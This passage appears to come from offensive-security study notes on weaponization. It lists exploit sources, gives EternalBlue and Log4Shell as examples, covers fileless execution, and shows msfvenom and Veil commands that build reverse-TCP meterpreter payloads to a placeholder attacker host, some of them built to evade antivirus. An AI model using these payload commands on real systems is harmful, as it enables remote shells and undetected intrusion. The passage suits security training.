     ```
    

### **c. Exploits**

- Use public databases to find suitable exploits:
    - Exploit-DB, Metasploit, NIST NVD.
- Examples:
    - EternalBlue (MS17-010): Exploits SMB vulnerabilities.
    - Log4Shell (CVE-2021-44228): Exploits vulnerable logging libraries.

### **d. Fileless Techniques**

- Avoid writing payloads to disk.
- Execute directly in memory using PowerShell, .NET assemblies, or reflective DLL injection.

---

### **3. Tools for Weaponization**

### **a. C2 Frameworks**

- **Cobalt Strike**:
    - Build custom malleable payloads.
    - Example: `beacon.exe` with customized HTTP/S profiles.
- **Metasploit**:
    - Versatile exploitation framework.
    - Example: Generating a payload:
        
        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -o payload.exe
        
        ```
        

### **b. Payload Builders**

- **Veil Framework**:
    - Generate AV-evasive payloads (PowerShell, Python, etc.).
    
    ```bash
    veil
    use powershell/meterpreter/rev_tcp
    
    ```
    
- **MSFVenom**:
    - Example: Linux payload.
        
        ```bash
        msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > payload.elf
        
        ```
        

### **c. Malware Obfuscation Tools**
